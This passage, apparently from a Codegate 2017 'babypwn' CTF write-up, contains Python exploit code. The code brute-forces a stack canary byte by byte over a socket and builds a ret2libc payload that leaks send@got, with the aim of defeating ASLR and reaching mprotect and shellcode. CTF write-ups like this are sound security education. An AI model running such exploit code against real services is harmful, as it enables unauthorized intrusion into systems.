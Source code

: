 ```

            r.recvuntil("Select menu > ")
            r.sendline("2")

            r.recvuntil("Input Your Message : ")
            r.send(buf + chr(guess))

            r.recvuntil("Select menu > ")
            r.sendline("3")
            d = r.recv(1024)

            # if we don't get an exception, we guessed the correct byte
            print "Guessed correct byte:", format(guess, '02x')
            canary += chr(guess)
            buf += chr(guess)
            guess = 0x0
            break

        except EOFError,e:
            # guessed the wrong byte
            guess += 1

print "Canary:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
print "Hexdump:", hexdump(canary)
```

Running this returns the stack canary:

![](/images/2017/codegate/babypwn/08.png)

ROP chain time!

### Bypassing ASLR

I assumed ASLR was enabled on the server. Why not right? With NX enabled, I couldn't execute on the stack. I needed to store my shellcode in a memory location that I could `mprotect()` to read/write/execute. To do that, I needed to find the address of `mprotect()` first. I did that by overwriting the saved return pointer with the address of `send@plt` and having it print out the address pointed to by `send@got`:

```
buf_1 = "A"*40
buf_1 += canary
buf_1 += "B"*12

# -- STAGE 1 ret2libc to leak address of send() and calculate libc base address

# ret2libc
buf_2 = ""
buf_2 += p32(0x8048700)   # send@plt
buf_2 += "CCCC"
buf_2 += p32(0x4)         # sockfd
buf_2 += p32(0x0804b064)  # send@got
buf_2 += p32(0x4)         # len
buf_2 += p32(0x0)         # flags
buf_2 += "D"*200

payload = buf_1 + buf_2
```

